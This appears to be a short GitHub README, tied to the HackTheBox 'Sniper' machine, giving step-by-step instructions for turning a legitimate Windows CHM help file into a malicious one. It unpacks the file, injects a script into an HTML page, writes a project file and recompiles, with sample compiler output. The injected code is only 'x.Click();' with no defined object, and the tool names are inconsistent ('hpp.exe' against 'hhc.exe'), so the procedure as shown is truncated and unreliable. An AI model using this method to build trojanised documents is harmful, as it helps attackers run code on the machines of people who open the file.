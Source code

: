 # fichier chm
(hackthebox: VM sniper pour avoir un CHM Malicieux à modifier ensuite avec les utilitaires Windows (lire le tuto ci-dessous))


## Procedure for generating Malicious CHM file

- **Step 0:** Download and install [**Microsoft HTML Help Workshop and Documentation**](https://www.microsoft.com/en-us/download/details.aspx?id=21138)
- **Step 1:** Obtain a valid CHM file and unpack it using 7-zip
- **Step 2:** Find an entry-point HTML file within "_docs_" directory and insert the following code into it's `<body>` section:

```

<SCRIPT>
  x.Click();
</SCRIPT>
```

- **Step 3:** Prepare `Project.hpp` file with contents like the below ones:

```
[OPTIONS]
Contents file=<PATH-TO-UNPACKED-CHM-DIRECTORY>\Table of Contents.hhc
[FILES]
<PATH-TO-UNPACKED-CHM-DIRECTORY>\docs\Malicious-File.htm
```

Add every file needed by that CHM to the `FILES` section. Remember to include also previously modified malicious HTM file.


- **Step 4:** Compile the project within CHM directory using `hpp.exe` compiler:

```
<PATH-TO-UNPACKED-CHM-DIRECTORY> "C:\Program Files (x86)\HTML Help Workshop\hhc.exe" Project.hpp
Microsoft HTML Help Compiler 4.74.8702

Compiling <PATH-TO-UNPACKED-CHM-DIRECTORY>\Project.chm


Compile time: 0 minutes, 1 second
353     Topics
7,208   Local links
187     Internet links
2       Graphics


Created <PATH-TO-UNPACKED-CHM-DIRECTORY>\Project.chm, 817,791 bytes
Compression decreased file by 2,091,702 bytes.
```

- **Step 5:** PROFIT.

